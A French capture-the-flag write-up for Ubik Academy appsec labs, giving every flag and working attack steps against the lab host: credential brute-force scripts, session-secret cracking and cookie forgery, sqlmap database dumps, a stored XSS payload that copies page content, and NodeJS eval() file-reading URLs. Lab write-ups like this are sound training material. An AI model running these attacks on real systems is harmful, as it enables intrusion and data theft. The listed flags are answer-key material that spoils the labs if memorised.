





# Ubik Labs
Création du compte (réduction à 0€): <https://learning.ubik.academy/compte-dadherent/paiement-dadhesion/?level=10&pmprogroupacct_group_code=70EF3AD6A0>  

&nbsp;  
&nbsp;  


## Connectez-vous avec le compte invité (Lab 1, Login)
**flag: 38e2e512180c4d6915f638ddc77db790**  
entrypoint: <https://ctf.appsec.tp.ubik.academy/lab1/login>

Test simple d'authentification avec des identifiants en dur dans le code source. Un rapide `view-source` révèle les credentials du compte invité:  
`username: guest`
`password: guest`

`loginValidation.js`:  
```javascript
function validate_guest(){
  var username = document.getElementById("username").value;
  var password = document.getElementById("password").value;
  if ( username == "guest" && password == "guest"){
    alert("Flag : 38e2e512180c4d6915f638ddc77db790");
    return false;
    }
  else {
    alert("Error on username or password");
  }
}
```


---

## Connectez-vous avec le compte invité avec filtre en plus (Lab 1, UserAgent)
**flag: 2eed06405d43e9e1c293711a39c31e09**  
entrypoint: <https://ctf.appsec.tp.ubik.academy/lab1/useragent>

Même compte invité que le Lab 1 précédent, mais avec une condition supplémentaire sur l'User-Agent. En utilisant un outil comme `curl` ou `Burp Suite`, on peut facilement modifier l'User-Agent pour correspondre à la valeur attendue par le serveur et ainsi récupérer le flag. Le bon User-Agent est : <https://explore.whatismybrowser.com/useragents/parse/3383597-chrome-android-lg-nexus-5-blink>

Donc la requête `curl` ressemblerait à ceci :  
```bash
curl -A "Mozilla/5.0 (Linux; Android 6.0; Nexus 5 Build/MRA58N) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Mobile Safari/537.36" https://ctf.appsec.tp.ubik.academy/lab1/useragent
```

---

## Usurpez l’identité de l’administrateur depuis un paramètre (Lab 1, HTTP Header)
**flag: 961b85dbe72d1d579b619358de98e5a0**  
entrypoint: <https://ctf.appsec.tp.ubik.academy/lab1/betheadmin-chall1>  

La requête HTTP est vulnérable à une usurpation d'identité basée sur un en-tête personnalisé. En modifiant les données de connexion (`isAdmin=true`), le serveur considère que l'utilisateur est un administrateur et retourne le flag. Voici comment faire avec `curl` :  
```bash
curl 'https://ctf.appsec.tp.ubik.academy/lab1/betheadmin-chall1' \
  --compressed \
  -X POST \
  -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:145.0) Gecko/20100101 Firefox/145.0' \
  -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' \
  -H 'Accept-Language: en-US,en;q=0.5' \
  -H 'Accept-Encoding: gzip, deflate, br, zstd' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  -H 'Origin: https://ctf.appsec.tp.ubik.academy' \
  -H 'Connection: keep-alive' \
  -H 'Referer: https://ctf.appsec.tp.ubik.academy/lab1/betheadmin-chall1' \
  -H 'Upgrade-Insecure-Requests: 1' \
  -H 'Sec-Fetch-Dest: document' \
  -H 'Sec-Fetch-Mode: navigate' \
  -H 'Sec-Fetch-Site: same-origin' \
  -H 'Sec-Fetch-User: ?1' \
  -H 'Priority: u=0, i' \
  -H 'TE: trailers' \
  --data-raw 'username=guest&password=guest&isAdmin=true&submit='
```

---

## Usurpez l’identité de l’administrateur depuis un jeton de session  (Lab 1, Session)
**flag: 90c3270cf633c2d7c330c2fa617e69ad**  
entrypoint: <https://ctf.appsec.tp.ubik.academy/lab1/betheadmin-chall2>  

En se connectant en tant que `guest:guest`, un cookie de session `isAdmin=false` est généré. En modifiant ce cookie pour `isAdmin=true`, le serveur considère que l'utilisateur est un administrateur et retourne le flag.

---

## Trouvez un compte valide dans un fichier de sauvegarde (Lab 2, File Search)
**flag: 1b7e0e426909a05eabe0b3472627f1d6**  
entrypoint: <https://ctf.appsec.tp.ubik.academy/lab2/fileSearch>

Avec `dirb`, on explore les endpoints de lab2:
```bash
dirb https://ctf.appsec.tp.ubik.academy/lab2/
```
  

On trouve un endpoint intéressant: <https://ctf.appsec.tp.ubik.academy/lab2/users>. En accédant à cette URL, on découvre une requête SQL d'insertion de test utilisateurs:  
`INSERT INTO test_users (username, password, email) VALUES ('test','Passw0rd1T@','test@appsecacademy.com'), ('user','us3rTes@','user@appsecacademy.com');`.


---

## Trouvez des comptes valides en attaquant la mire d’authentification (Lab 2, Enumeration)
**flag : f3232fc3a876ac55e5755b3621feb452**  
entrypoint: <https://ctf.appsec.tp.ubik.academy/lab2/enumeration>  

On peut faire une énumération de comptes sur cet endpoint car il retourne un message d'erreur différent pour les noms d'utilisateur invalides ("account does not exist") par rapport aux mots de passe incorrects ("Wrong password"). En utilisant un wordlist de noms courants, on peut identifier les comptes valides en filtrant les réponses du serveur. Le script de bruteforce est:  

```bash
# Tableau contenant les chemins de toutes les listes à tester
wordlists=(
  "/home/hacker/Desktop/10k-most-common.txt"
  "/usr/share/dirb/wordlists/common.txt"
  "/usr/share/dirb/wordlists/small.txt"
  "/usr/share/dirb/wordlists/big.txt"
  "/home/hacker/Desktop/rockyou.txt"
)

# Codes couleurs ANSI
GREEN='\033[0;32m'
CYAN='\033[0;36m'
YELLOW='\033[1;33m'
GRAY='\033[0;90m'
RED='\033[0;31m'
NC='\033[0m'

marks="██████████████████████████████"
spaces="░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░"

found=0

for wordlist in "${wordlists[@]}"; do
  # Vérification de l'existence du fichier
  if [ ! -f "$wordlist" ]; then
    echo -e "${RED}[!] Fichier introuvable, on passe : $wordlist${NC}"
    continue
  fi

  total=$(wc -l < "$wordlist")
  count=0
  
  echo -e "\n${CYAN}[*] Chargement de la liste : $wordlist ($total mots)${NC}"

  while IFS= read -r user; do
    user=$(echo "$user" | tr -d '\r')
    [ -z "$user" ] && continue
    
    ((count++))
    
    percent=$((count * 100 / total))
    filled=$((count * 30 / total))
    empty=$((30 - filled))
    
    printf "\r${CYAN}[*]${NC} [${GREEN}%s${GRAY}%s${NC}] ${YELLOW}%3d%%${NC} (%d/%d) | Test: %-15s" "${marks:0:filled}" "${spaces:0:empty}" "$percent" "$count" "$total" "$user"

    body=$(curl -s -k -X POST -d "username=$user&password=truc&submit=" "https://ctf.appsec.tp.ubik.academy/lab2/enumeration")
    
    # Si l'alerte JS n'est pas dans la page, le compte existe
    if ! echo "$body" | grep -Fq "account does not exist"; then
      printf "\n\n${GREEN}[+] Compte valide trouvé : %s${NC}\n" "$user"
      found=1
      break 2 # Quitte la boucle while ET la boucle for
    fi
  done < "$wordlist"
  
  # Nettoie la ligne de progression à la fin d'une liste
  printf "\r\033[K"
done

# Bilan final si aucun compte n'a été trouvé
if [ $found -eq 0 ]; then
  echo -e "\n${RED}[-] Échec : Aucun compte valide n'a été trouvé dans l'ensemble de ces listes.${NC}"
fi
```

Et l'on obtient:  



Il suffit ensuite de lancer un bruteforce (hydra) de mot de passe sur le compte `demo` pour récupérer le flag:  
```bash
hydra -l demo -P /home/hacker/Desktop/10k-most-common.txt ctf.appsec.tp.ubik.academy -s 443 https-post-form "/lab2/enumeration:username=^USER^&password=^PASS^&submit=:F=Wrong password"
```



---


## Usurpation d'administrateur en signant votre propre JWT (Lab 2, JWT Forgery)
**flag: 1c9969e6b1b025f6f197c163841729cd**  
entrypoint: <https://ctf.appsec.tp.ubik.academy/lab2/>  

Premièrement, il nous faut trouver un fichier de sauvegarde contenant le code source de la gestion de session. En utilisant `dirb` on trouve un endpoint intéressant: <https://ctf.appsec.tp.ubik.academy/lab2/session.bak>. 
En accédant à ce fichier PHP, on découvre que le serveur génère un cookie de session en encodant en Base64 un JSON d'informations utilisateur (contenant un champ `isAdmin`) et en le signant avec une clé secrète via Bcrypt:  
```php
<?php
class SecureClientSession {
  private $cookieName;
  private $secret;
  private $data;

  public function __construct($cookieName = 'session', $secret = 'secret') {
    $this->data = [];
    $this->secret = $secret;

    if (array_key_exists($cookieName, $_COOKIE)) {
      try {
        list($data, $signature) = explode('.', $_COOKIE[$cookieName]);
        $data = urlencode(base64_encode($data));
        $signature = urlencode(base64_encode($signature));

        if ($this->verify($data, $signature)) {
          $this->data = json_decode($data, true);
        }
      } catch (Exception $e) {}
    }

    $this->cookieName = $cookieName;
  }

  public function isset($key) {
    return array_key_exists($key, $this->data);
  }

  public function get($key, $defaultValue = null){
    if (!$this->isset($key)) {
      return $defaultValue;
    }

    return $this->data[$key];
  }

  public function set($key, $value){
    $this->data[$key] = $value;
  }

  public function unset($key) {
    unset($this->data[$key]);
  }

  public function save() {
    $json = json_encode($this->data);
    $value = urlencode(base64_encode($json)) . '.' . urlencode(base64_encode($this->sign($json)));
    setcookie($this->cookieName, $value);
  }

  public function verify($string, $signature) {
    return password_verify($this->secret . $string, $signature);
  }

  public function sign($string) {
    return password_hash($this->secret . $string, PASSWORD_BCRYPT);
  }
}
?>
```
  
Le problème majeur est que le hash Bcrypt est stocké côté client dans le cookie, ce qui permet une attaque de brute-force hors ligne pour trouver la clé secrète.  
En utilisant une liste de mots courants (comme `rockyou.txt`) et la fonction `password_verify` de PHP, on peut rapidement identifier la clé secrète faible utilisée par le serveur (`abc1234`). Une fois la clé trouvée, il suffit de générer un nouveau cookie avec les informations d'administrateur (`{"name":"demo","isAdmin":"true"}`) signé avec la même clé, puis d'injecter ce cookie dans le navigateur pour accéder au panneau d'administration et récupérer le flag:    
```php
<?php
$json_actuel = '{"name":"demo","isAdmin":"false"}';
$hash_actuel = '$2y$10$t6XEn4aBf5CwXzxz3xKwK.3qMyM/3C8AprFX04f8YOeH5Cy8BVbTW';
$dico = "/usr/share/wordlists/rockyou.txt"; 

echo "[*] Starting brute-force... (This might take 1 to 5 minutes, be patient!)\n";

$file = fopen($dico, "r");
$secret = null;

while (($mot = fgets($file)) !== false) {
    $mot = trim($mot);
    if (password_verify($mot . $json_actuel, $hash_actuel)) {
        $secret = $mot;
        echo "\n[+] BINGO! The server's secret key is: '" . $secret . "'\n\n";
        break;
    }
}
fclose($file);

if ($secret) {
    $nouveau_json = '{"name":"demo","isAdmin":"true"}';
    $nouveau_hash = password_hash($secret . $nouveau_json, PASSWORD_BCRYPT);
    $nouveau_cookie = urlencode(base64_encode($nouveau_json)) . '.' . urlencode(base64_encode($nouveau_hash));
    
    echo "[*] Here is your new Admin Cookie:\n\n";
    echo $nouveau_cookie . "\n\n";
} else {
    echo "\n[-] Failed to find the key in rockyou.txt.\n";
}
?>
```


---


## Récupérez le contenu de la BDD (Lab 3, SQL Injection)
**flag: 67d72757cecd6959a6cc9d8f03639de8**  
entrypoint: <https://ctf.appsec.tp.ubik.academy/lab3/login>  

En se connectant, on peut voir des posts sur `/view.php`. 
En testant une simple apostrophe (`'`) dans le paramètre `post_id`, on observe une erreur SQL, indiquant une vulnérabilité d'injection SQL.

Premièrement, on va lister les bases de données:  
```bash
sqlmap -u "https://ctf.appsec.tp.ubik.academy/lab3/view.php?post_id=1" -p post_id --cookie="PHPSESSID=VOTRE_JETON" --dbms=mysql --dbs
```
Et on a:
```
available databases:  
[*] appsec
[*] information_schema
```

Ensuite on liste les tables de la base `appsec`:
```bash
sqlmap -u "https://ctf.appsec.tp.ubik.academy/lab3/view.php?post_id=1" -p post_id --cookie="PHPSESSID=55ae077ea1ceebe5fa41109dcc28da9a" --dbms=mysql -D appsec --tables
```
Et on a:  
```
Database: appsec
[3 tables]
+--------+
| db_sql |
| posts  |
| users  |
+--------+
```

Ensuite on peut dumper la table `db_sql` qui contient le flag:  
```bash
sqlmap -u "https://ctf.appsec.tp.ubik.academy/lab3/view.php?post_id=1" -p post_id --cookie="PHPSESSID=55ae077ea1ceebe5fa41109dcc28da9a" --dbms=mysql -D appsec -T db_sql --dump
```

Et on obtient:
```        
Database: appsec
Table: db_sql
[1 entry]
+----------------------------------+
| flag                             |
+----------------------------------+
| 67d72757cecd6959a6cc9d8f03639de8 |
+----------------------------------+
```


---

## Affichez le profil de l’administrateur (Lab 3, IDOR)
**flag: cf31df9180a1ceb4df7b4f8509ce8d6b**  
entrypoint: <https://ctf.appsec.tp.ubik.academy/lab3/login>  

When login in, we can see that there is a Base64-encoded `profile_id` parameter in the URL (e.g., `id:1` becomes `aWQ6MQ==`). By changing this parameter to `aWQ6Mw==` (`id:3`), we can access the Admin's profile and retrieve the flag.

---


## Faites exécuter du code JavaScript arbitraire à un autre utilisateur (Lab 3, Reflected XSS)
**flag : 2c2e03592c4d0eeaec6a67c5c75f8d4b** (l'exploit fonctionne mais le bot de validation n'est pas actif)  
entrypoint: <https://ctf.appsec.tp.ubik.academy/lab3/login>

Après connection, on peut éditer sa description de profil. En injectant un payload JavaScript dans ce champ, on peut faire en sorte que lorsqu'un autre utilisateur (ou un bot de validation) visite notre profil, le script s'exécute et exfiltre des données sensibles (comme le contenu de `/lab3/view`) vers notre propre profil.  
```bash
curl -k -X POST -H "Cookie: PHPSESSID=[TOKEN]" -H "Content-Type: application/x-www-form-urlencoded" --data-raw "description=%3Cscript%3Efetch%28%27%2Flab3%2Fview%27%29.then%28r%3D%3Er.text%28%29%29.then%28t%3D%3E%7Bfetch%28%27%2Flab3%2Fedit%3Fprofile_id%3DaWQ6MjE%3D%27%2C%7Bmethod%3A%27POST%27%2Cheaders%3A%7B%27Content-Type%27%3A%27application%2Fx-www-form-urlencoded%27%7D%2Cbody%3A%27description%3D%27%2BencodeURIComponent%28t%29%2B%27%26submit%3D%27%7D%29%7D%29%3C%2Fscript%3E&submit=" "https://ctf.appsec.tp.ubik.academy/lab3/edit?profile_id=aWQ6Mw=="
```


---


## Crack the Hash (Lab 4, Crypto)
**flag: 36737e422e2c35009a4cf27e51e2d91b**  
Connections nous avec `test:test`.  

On nous demande de trouver le texte en clair d'un hash.  

Identifions le type de hash:  
```bash
hashid -m 8be3c943b1609fffbfc51aad666d0a04adf83c9d
```
Il est de type MD5.  

On utilise ensuite John The Ripper pour cracker ce hash:  
```bash
john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```


---

## Décryptez le flag chiffré avec AES (Lab 4, Weak AES)
**flag: ac1d89484a486ddfa22168a71e3140a7**  
entrypoint: <https://ctf.appsec.tp.ubik.academy/lab4/crypto2>  


The developer encrypted a flag using AES. They provided a ciphertext and two critical clues: the Initialization Vector (IV) was identical to the secret key, and the key was generated predictably from a 3-letter word (`[word]*5+[word][0]`). Finally, the plaintext flag was known to start with `ac1d`. aes.txt:  
```
key length is 16 (With just characters [a-z]) and it is in form bellow
key == [word with 3 chars]*5+[first char in the word]
Example : with [word with 3 chars] == "abc"
Then the key is == "aze"*5 + "aze"[0] == "azeazeazeazeazea"

NB : the IV is the same as the key and the recovered data starts with "ac1d"

Can you recover the data :
PqQaoq7EHZ/2sX0i7kvjki/7D/HJeoykckmZCDrbQu4=
```


On peut donc bruteforce avec un script Python en générant toutes les combinaisons possibles de 3 lettres, en construisant la clé et l'IV à partir de ces lettres, puis en essayant de décrypter le ciphertext jusqu'à trouver un plaintext qui commence par `ac1d`:  
```python
import base64
import itertools
from Crypto.Cipher import AES

# --- DONNÉES DU CHALLENGE ---
ciphertext_b64 = "PqQaoq7EHZ/2sX0i7kvjki/7D/HJeoykckmZCDrbQu4="
ciphertext = base64.b64decode(ciphertext_b64)

# L'alphabet autorisé pour générer le mot de 3 lettres
alphabet = "abcdefghijklmnopqrstuvwxyz"

print("[*] Génération des clés et lancement du brute-force...")

# itertools.product génère toutes les combinaisons possibles (aaa, aab, aac...)
for combo in itertools.product(alphabet, repeat=3):
    word = "".join(combo)
    
    # Construction de la clé selon la formule du développeur
    key_str = (word * 5) + word[0]
    key_bytes = key_str.encode('utf-8')
    
    # L'énoncé dit : "the IV is the same as the key"
    iv_bytes = key_bytes
    
    try:
        # Initialisation de l'algorithme AES en mode CBC
        cipher = AES.new(key_bytes, AES.MODE_CBC, iv_bytes)
        decrypted_padded = cipher.decrypt(ciphertext)
        
        # On vérifie si le texte déchiffré commence par notre indice (Known-Plaintext)
        if decrypted_padded.startswith(b"ac1d"):
            print(f"\n[+] BINGO ! Le mot de 3 lettres est : '{word}'")
            
            # On décode en ignorant les erreurs de padding pour être sûr de tout voir
            flag_brut = decrypted_padded.decode('utf-8', errors='ignore')
            
            # On affiche le résultat nettoyé des caractères non-imprimables
            print(f"\n[+] LE FLAG EST : {flag_brut.strip()}")
            break
            
    except Exception as e:
        # On ignore les erreurs de décodage liées aux mauvaises clés
        pass
```


---


## Décryptez le flag chiffré avec RSA (Lab 4, Bad RSA Safety)
**flag: c9aedee00a88523c58c02b627ec81cfa**  
entrypoint: <https://ctf.appsec.tp.ubik.academy/lab4/rsa.txt>  

The RSA parameters are left exposed in `rsa.txt`, including the prime factor `p`, modulus `n`, public exponent `e`, and an array of ciphertext integers. The critical vulnerability is the exposure of `p`, which allows for easy factorization of `n` and derivation of the private key. rsa.txt:
```python
p = 2400139417283
n = 9637333055984190042819023
e= 2473788715074695253059

cipher = [5372770800240806188185288, 61981901831178237080483, 5458540855675402348500348, 9092968844859135481129638, 5580305074281704114079912, 9092968844859135481129638, 9092968844859135481129638, 7929469763473404486803246, 7929469763473404486803246, 5458540855675402348500348, 246273347379665967925793, 246273347379665967925793, 9358544392638118020671087, 7958971874270436613275299, 3204087215153936577831146, 5372770800240806188185288, 9358544392638118020671087, 246273347379665967925793, 5372770800240806188185288, 7929469763473404486803246, 7958971874270436613275299, 7094668031755219224375346, 6654758055570926748181501, 7958971874270436613275299, 6016433714617575151748141, 9092968844859135481129638, 5372770800240806188185288, 246273347379665967925793, 655306269031444501138900, 5372770800240806188185288, 3000242236552093781058737, 5458540855675402348500348]

def encrypt(text,e,n):
    cipher = [pow(ord(char),e,n) for char in text]
    return cipher
```

Donc on peut décrypter avec la clé privée dérivée de `p` et `n`:
```python
# --- LES DONNÉES DU DÉVELOPPEUR ---
p = 2400139417283
n = 9637333055984190042819023
e = 2473788715074695253059

cipher = [5372770800240806188185288, 61981901831178237080483, 5458540855675402348500348, 9092968844859135481129638, 5580305074281704114079912, 9092968844859135481129638, 9092968844859135481129638, 7929469763473404486803246, 7929469763473404486803246, 5458540855675402348500348, 246273347379665967925793, 246273347379665967925793, 9358544392638118020671087, 7958971874270436613275299, 3204087215153936577831146, 5372770800240806188185288, 9358544392638118020671087, 246273347379665967925793, 5372770800240806188185288, 7929469763473404486803246, 7958971874270436613275299, 7094668031755219224375346, 6654758055570926748181501, 7958971874270436613275299, 6016433714617575151748141, 9092968844859135481129638, 5372770800240806188185288, 246273347379665967925793, 655306269031444501138900, 5372770800240806188185288, 3000242236552093781058737, 5458540855675402348500348]

# --- FONCTIONS FOURNIES PAR LE CHALLENGE ---
def egcd(a, b):
    ''' calculates the modular inverse from e and phi '''
    if a == 0:
        return (b, 0, 1)
    else:
        g, y, x = egcd(b % a, a)
        return (g, x - (b // a) * y, y)

def modinv(a, m):
    ''' Utilise egcd pour extraire proprement l'inverse modulaire '''
    g, x, y = egcd(a, m)
    if g != 1:
        raise Exception('L\'inverse modulaire n\'existe pas')
    else:
        return x % m

def decrypt(ctext, private_key):
    try:
        key, n = private_key
        text = [chr(pow(char, key, n)) for char in ctext]
        return "".join(text)
    except TypeError as e:
        print(e)


# --- EXPLOITATION MATHÉMATIQUE ---
print("[*] Début du déchiffrement...")

# 1. Retrouver q (n = p * q, donc q = n // p)
q = n // p
print(f"[*] Valeur de q trouvée : {q}")

# 2. Calculer l'indicatrice d'Euler (phi)
phi = (p - 1) * (q - 1)

# 3. Calculer la clé privée d (inverse modulaire de e modulo phi)
d = modinv(e, phi)
print(f"[*] Clé privée d calculée avec succès.")

# 4. Lancer le déchiffrement
flag = decrypt(cipher, (d, n))

print("\n[+] SUCCESS ! Voici le flag :")
print(flag)
print("\n")
```


---


## Exécutez des commandes sur notre API NodeJS et récupérez le flag (Lab 5, NodeJS RCE)
**flag: c9aedee00a88523c58c02b627ec81cfa**  
entrypoint: <http://ctf.appsec.tp.ubik.academy:3000/api/?msg=%27Hacker%27>

La cible expose un endpoint API NodeJS vulnérable à l'injection de code via la fonction `eval()`. En exploitant cette vulnérabilité, on peut parcourir le système de fichiers du serveur, localiser un fichier caché contenant le flag, et lire son contenu pour capturer le flag:  
POC: <http://ctf.appsec.tp.ubik.academy:3000/api/?msg='Hacker'.length>  
Directory Enumeration: <http://ctf.appsec.tp.ubik.academy:3000/api/?msg='Hacker'%2Brequire('fs').readdirSync('.')>  
Sub-directory Enumeration: <http://ctf.appsec.tp.ubik.academy:3000/api/?msg='Hacker'%2Brequire('fs').readdirSync('./azefezrt')>  
File Read (Flag Extraction): <http://ctf.appsec.tp.ubik.academy:3000/api/?msg='Hacker'%2Brequire('fs').readFileSync('./azefezrt/flag.txt')>  


---

## MyPizzaApp (White-Box Penetration Test)
The objective of this lab is to conduct an end-to-end white-box security audit of "MyPizzaApp," an online pizzeria application utilizing a virtual currency called "UBIKs." The ultimate goal is to discover vulnerabilities, chain them together to compromise the application server, capture hidden flags at each stage, and produce a professional remediation report.

We want to check:  
- Business Logic Flaws: Manipulation of numerical values (e.g., negative pizza prices, integer overflows) to bypass UBIK currency constraints.
- Injection Flaws: SQL Injection (SQLi) resulting from concatenated strings rather than parameterized queries, and Command Injection via dangerous OS-level function calls.
- Insecure File Uploads: Uploading malicious payloads (e.g., .php web shells) disguised as user avatars or recipes.
- Hardcoded Credentials: Exposed API keys, database credentials, or JWT signing secrets within the raw source code.
